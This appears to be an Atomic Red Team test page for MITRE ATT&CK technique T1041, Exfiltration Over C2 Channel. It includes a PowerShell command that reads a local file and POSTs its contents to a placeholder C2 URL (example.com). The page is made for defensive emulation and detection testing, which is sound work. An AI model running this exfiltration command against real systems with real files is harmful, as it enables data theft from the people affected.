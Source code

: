 ```yaml
---
tags: [T1041, atomic_test]
filename: "[[T1041|T1041 - Exfiltration Over C2 Channel]]"
---
```


# T1041 - Exfiltration Over C2 Channel
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1041)
<blockquote>Adversaries may steal data by exfiltrating it over an existing command and control channel. Stolen data is encoded into the normal communications channel using the same protocol as command and control communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 Data Exfiltration](#atomic-test-1---c2-data-exfiltration)


<br/>

## Atomic Test #1 - C2 Data Exfiltration
Exfiltrates a file present on the victim machine to the C2 server.

**Supported Platforms:** Windows


**auto_generated_guid:** d1253f6e-c29b-49dc-b466-2147a6191932





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | example.com|
| filepath | The file which is being exfiltrated to the C2 Server. | path | $env:TEMP&#92;LineNumbers.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
if(-not (Test-Path #{filepath})){ 
  1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
}
[System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
```






<br/>
